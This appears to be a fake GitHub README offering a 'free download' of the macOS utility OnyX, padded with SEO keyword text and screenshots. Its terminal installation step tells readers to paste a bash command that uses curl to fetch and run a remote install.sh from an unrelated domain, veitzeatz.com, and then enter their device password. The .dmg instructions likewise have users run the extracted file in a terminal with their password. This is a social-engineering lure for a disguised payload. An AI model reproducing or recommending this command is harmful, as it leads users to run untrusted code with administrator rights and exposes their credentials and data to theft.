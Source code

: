 # OnyX For Mac — Free Download  
OnyX is a powerful macOS utility for system optimization and maintenance. Follow the instructions below to install OnyX on your Mac for free and keep your system running smoothly! 🚀  

[![Download Now](https://img.shields.io/badge/Download%20Now-007AFF?style=for-the-badge&logo=apple)]()  

If the download button doesn’t work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install OnyX For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with OnyX  
OnyX empowers macOS users with tools to optimize and maintain their system. Here’s what you can do:  
- 🛠 **System Maintenance**: Clean caches, logs, and temporary files to free up disk space.  
- ⚙️ **Performance Optimization**: Fine-tune system settings for faster performance.  
- 🗑 **Junk Removal**: Safely delete unnecessary files to declutter your Mac.  
- 🔒 **Privacy Protection**: Clear browsing data and protect your personal information.  
- 📊 **System Diagnostics**: Verify disk health and troubleshoot issues with ease.  
- 🖥 **Customization Options**: Personalize macOS appearance and behavior to your liking.  

---

## About OnyX  
OnyX is a trusted macOS utility designed to help users maintain, optimize, and customize their systems. With a user-friendly interface, it offers a suite of tools to clean up unnecessary files, improve system performance, and troubleshoot potential issues. Whether you're a casual user or a power user, OnyX provides the flexibility to keep your Mac running at its best. Keywords: *OnyX free download, macOS optimization, system maintenance tool, clean Mac free*.  

This software is particularly valued for its ability to perform deep system cleaning. By removing caches, logs, and temporary files, OnyX frees up valuable disk space, ensuring your Mac operates efficiently. It also allows users to verify disk integrity, repair permissions, and run maintenance scripts, making it an essential tool for macOS system management. Keywords: *OnyX macOS utility, free system cleaner, Mac performance booster*.  

Beyond cleaning, OnyX offers advanced customization options. Users can tweak hidden macOS settings, such as Finder preferences, Dock behavior, and system animations, to tailor their experience. This makes OnyX a go-to solution for those who want a personalized and optimized Mac environment. Keywords: *customize macOS, free Mac utility, OnyX download free*.  

OnyX also prioritizes user privacy by enabling the removal of sensitive data, such as browsing history and application logs. Its intuitive design ensures that even non-technical users can navigate its features with ease, while advanced users appreciate its powerful command-line capabilities. Keywords: *Mac privacy tool, free system optimization, OnyX for macOS*.  

### Advantages of OnyX  
OnyX stands out due to its comprehensive feature set, ease of use, and reliability. Unlike other system utilities, it’s completely free, regularly updated, and developed by Titanium Software, a trusted name in macOS tools. Its lightweight design ensures minimal resource usage, while its robust functionality caters to both beginners and experts. Keywords: *best free Mac cleaner, OnyX macOS download, system maintenance free*.  

---

## 🖼 Preview  

![OnyX Dashboard](https://mac-cdn.softpedia.com/screenshots/OnyX_19.jpg)  
*OnyX’s clean interface for system maintenance and optimization.*  

![OnyX Cleaning Tools](https://titanium-software.fr/fr/images/home.png)  
*Easily clean caches and logs to free up disk space.*  

![OnyX Customization](https://macx.ws/uploads/posts/2018-10/1538467279_onyx-_03.jpg)  
*Customize macOS settings with OnyX’s intuitive options.*  


---

## 🔍 Tags  
OnyX free download, OnyX macOS utility, OnyX for macOS, OnyX download, OnyX download free, OnyX download mac, OnyX download macos, OnyX free macos, OnyX free mac, download OnyX free, download OnyX mac
